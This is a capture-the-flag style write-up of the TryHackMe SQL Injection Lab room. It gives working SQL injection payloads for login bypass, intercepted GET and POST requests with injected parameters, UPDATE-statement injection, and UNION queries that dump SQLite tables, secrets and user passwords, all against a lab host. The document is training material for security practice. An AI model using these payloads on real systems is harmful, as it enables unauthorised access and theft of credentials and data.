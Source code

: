 # Tryhackme SQL Injection Lab

![SQL Injection lab](../.res/2023-07-08-15-19-56.png)

- [Room on THM](https://tryhackme.com/room/sqlilab)  

## Introduction to SQL Injection: Part 1

### SQL Injection 1: Input Box Non-String

We have a login page. We need to bypass login  
This payload worked `1 or 1=1; --`  
![bypass login](../.res/2023-07-08-15-28-31.png)  

### SQL Injection 2: Input Box String

The payload that worked was `1' or 1=1; --`  

![SQL Injection 2](../.res/2023-07-08-15-32-38.png)  

### SQL Injection 3: URL Injection

For this one to work, we need to intercept the request (there is a client side check that block from putting special char)  
So first we put legit chars and then we modify our request live. This payload works `1' or 1=1; --`  

- Initial request

```http
GET /sesqli3/login?profileID=1&password=ss HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli3/login?next=http%3A%2F%2F10.10.2.114%3A5000%2Fsesqli3%2Fhome
DNT: 1
Connection: close
Cookie: session=.eJy9j71OxDAQhN9l6xRe_zs1QqK5jjpa2xtkkbsE-04Ine7dcTgkKKkoZ2ZntN8VjlROtG3Ty6VkOiWGcaal8QCN29tScMp0Jhiv8Pz0ACMOwL2xwAgwwImO_R4eay-upe1OSa-Hu9vVRq1taz0fatfeCiONEaiF19_h-1pzj3TyanYi0awIU6Ckk3ZZBm1YzM7PLitDLgXU5Bk9WkWJpfKEkdli3NfqOpeF9x8BRTcaLVQ_YJRG3H5gLo3rVPIXyN2T_wHobBTGaw4hOhF1cJGs9spEZMOapUAjtXGWApLzSpHvrGg5qqRSX_wroPwFePsEOtCNIQ.ZKm5jg.4ICVFxM5DUc8Dez2qbd-t0IZX0w
Upgrade-Insecure-Requests: 1
```

- Edited request

```http
GET /sesqli3/login?profileID=1'+or+1%3d1%3b+--&password=ss HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli3/login?next=http%3A%2F%2F10.10.2.114%3A5000%2Fsesqli3%2Fhome
DNT: 1
Connection: close
Cookie: session=.eJy9j71OxDAQhN9l6xRe_zs1QqK5jjpa2xtkkbsE-04Ine7dcTgkKKkoZ2ZntN8VjlROtG3Ty6VkOiWGcaal8QCN29tScMp0Jhiv8Pz0ACMOwL2xwAgwwImO_R4eay-upe1OSa-Hu9vVRq1taz0fatfeCiONEaiF19_h-1pzj3TyanYi0awIU6Ckk3ZZBm1YzM7PLitDLgXU5Bk9WkWJpfKEkdli3NfqOpeF9x8BRTcaLVQ_YJRG3H5gLo3rVPIXyN2T_wHobBTGaw4hOhF1cJGs9spEZMOapUAjtXGWApLzSpHvrGg5qqRSX_wroPwFePsEOtCNIQ.ZKm5jg.4ICVFxM5DUc8Dez2qbd-t0IZX0w
Upgrade-Insecure-Requests: 1
```

### SQL Injection 4: POST Injection

We need to process the same and intercept the traffic. This payload `1' or 1=1; --` worked (it has to be url encoded)  

- Original request

```http
POST /sesqli4/login HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli4/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://10.10.2.114:5000
DNT: 1
Connection: close
Cookie: session=.eJy90T1PAzEMBuD_krlDnDhfNyMklm7MleM46MTROy6tEKr630kpEgwMnTrmdWzliU_qjcY9Lcvu5TgW2rOoodLUZKOatPdphF2hA6nhpJ6fHtQAGyW9Y1KDUhu1p7d-Xz2uvXEe2yUZ-XV7TftpodaWeT1s136OXjvjnAbUEX-KH_Naegk52ho0U7UEnIiRMRST0ImuIdZQrKPACZCiQARvicXYSJBFPOTLtHWu4ySXNyrQPWg00fqpBuP0-RdzbLLuxvINuWbmHsDgs3YRJaUcdMYUMnmM1mUQJyhGgzPogqcEFKK1FLsVvGTLlvvEW4HmH6C9B5C5IoOGFJ3YLNQ3F7qAqs8Sk9WxZO712o22SO4f0PeLnk0pCQH4VqD9Azx_AXCNz54.ZKm8BQ.AsuEoQn78yRUZfqQYn1RJ1d0KEk
Upgrade-Insecure-Requests: 1

profileID=t&password=t
```

- Edited request

```http
POST /sesqli4/login HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli4/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.10.2.114:5000
DNT: 1
Connection: close
Cookie: session=.eJy90T1PAzEMBuD_krlDnDhfNyMklm7MleM46MTROy6tEKr630kpEgwMnTrmdWzliU_qjcY9Lcvu5TgW2rOoodLUZKOatPdphF2hA6nhpJ6fHtQAGyW9Y1KDUhu1p7d-Xz2uvXEe2yUZ-XV7TftpodaWeT1s136OXjvjnAbUEX-KH_Naegk52ho0U7UEnIiRMRST0ImuIdZQrKPACZCiQARvicXYSJBFPOTLtHWu4ySXNyrQPWg00fqpBuP0-RdzbLLuxvINuWbmHsDgs3YRJaUcdMYUMnmM1mUQJyhGgzPogqcEFKK1FLsVvGTLlvvEW4HmH6C9B5C5IoOGFJ3YLNQ3F7qAqs8Sk9WxZO712o22SO4f0PeLnk0pCQH4VqD9Azx_AXCNz54.ZKm8BQ.AsuEoQn78yRUZfqQYn1RJ1d0KEk
Upgrade-Insecure-Requests: 1

profileID=1'+or+1%3d1%3b+--&password=t
```

## Introduction to SQL Injection: Part 2

### SQL Injection 5: UPDATE Statement

We need to login with the creds `10`:`toor`  
Then we have to access to "Edit Profile"  
The injection seems to work in the email field  
and when we using `',nickName=sqlite_version(),email='` it seems to be sqlite.  

![sqlite](../.res/2023-07-08-16-12-08.png)  

With this payload we get this `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='`  

![list tables](../.res/2023-07-08-16-14-37.png)  

Let's try to see what is in `secrets`  

`',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='`  

![create table](../.res/2023-07-08-16-18-06.png)  

`',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='`  

And we get the flag!  

## Vulnerable Startup: Broken Authentication

Here the payload that worked is `admin' or 1=1 --`  

## Vulnerable Startup: Broken Authentication 2

We can bypass login using the same payload as before.  

I won't go in details here, you just need to follow the explaination in the task if you are stuck.  

> Note: the chall that I did not cover here can be done by refering to the task in case you are stuck on your own.

## Vulnerable Startup: Book Title 1

Using the NULL method we can see that it needs 4 fields `') UNION SELECT NULL, NULL, NULL, NULL-- -`  

![null](../.res/2023-07-08-17-17-28.png)  

Using this payload we find the tables  
`') UNION SELECT group_concat(tbl_name), group_concat(tbl_name), group_concat(tbl_name), group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -`  

![get tables](../.res/2023-07-08-17-22-07.png)  

Using this payload we get more information about the users table  
`') UNION SELECT sql, sql, sql, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -`  

![users](../.res/2023-07-08-17-23-07.png)

Finally, using this payload we can get dump the users table and get the flag  
`') UNION SELECT id, username, password, id from users-- -`  

## Vulnerable Startup: Book Title 2

The payload that worked here is this one `title=' union select '1'' union select 1,2,3,password from users-- -`
